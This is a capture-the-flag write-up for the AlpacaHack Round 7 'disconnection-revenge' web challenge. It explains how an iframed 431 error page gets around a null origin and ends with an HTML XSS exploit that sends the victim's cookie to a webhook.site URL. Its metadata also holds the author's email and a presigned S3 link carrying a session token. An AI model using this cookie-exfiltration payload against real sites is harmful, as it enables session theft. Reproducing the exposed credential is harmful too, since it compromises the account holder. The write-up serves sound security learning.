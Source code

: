 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466TP2UZFLL%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T094458Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJIMEYCIQDx9mnqcqxWuz%2BwPkF7pQjzsFAilM9KqNekBt8MJ0ezSAIhAMLGm2Wkx31I9GCsgGWBcnOITsKynHFoLFO05%2FooX352KogECOr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1IgwzsU0zOVlwtFWpRUsq3AM1P45i1TuU9zPNfFKBxbmUF25XbFjeFXZkxtB5NafULWZ1CKYiLVFfQraMCAVxKbwt3Lrmv%2Fz5Tdsuy%2BGaTS%2FL5XprojWokQBuDzf%2FZ4Kc01i6zVU9hOCiENHivOO0KZ2JAPOFKHf8EctuM1AyROyVp89NzfKKqOQ%2BTHpFsxU8Lk7APv0Wh5Cflk2MJM%2FE%2F7rL0LP%2FW1Z9O4jr6E410a0ayxyEh%2FGbsqChDVcsv4GeWIfK9g9oT6jTCVsIoBUDOmdL%2FawHQZ3M4etdShl8Ooq9AqmIaG0mlXOvv%2Bl9LWaAgWPnPV2vLRecffkUEKVEhQKhWCDlYVCrtBEWOrKX549SAvBcbiu6qAMNXCjRmz6PxTCyxyBbE7jff307v5%2FTqrY9a8WWa1BkCYMjFeYAte%2Br4BNylwTxIPSuOzlGEas3TmhhOfIixERYBc%2Bw74jhT%2Bd5UTxH2OXvMZME7iyvvH5mGjAnujSZuHosiDB18%2B1%2BohjWOojZh%2BT7sWXDp1kYIzVItDafDh8UhHqr8K5%2BMbEMgFJlo4ajwrDTettICaZ4TsSSQurYJx73hbjQhEn3NrZrzDIN9i4I0AM%2Ba5GXPl5u6WcGTWh0s%2FY1nwbnRei5EXm3vURQi5Ed7OnMsTCc8sDBBjqkAQhkPHb13AAMtVftk60a3UvafglNFMpr9hfwqR04sIf%2BsUAuuCEOLgwNfA%2BA%2BZtOHYwMvn5zEupcDgdEBb3XlzQt5sDycbkgDjbOQC4UzSQXI3qUoOwtplU7%2FwlZMvcbhK%2Fq2yXflTDS2xjXn%2BwRikJMW4tCdCsAw14OGTVtfGyBMNngGdNiBDxcB3bisplonAn77mEo2yN%2Bqbz9eLpqymH7OytW\&X-Amz-Signature=20a6f29b14c96ddd68d41be2c7bfa3ebf91cd4736e5959bbe1a9bbaa71468d09\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
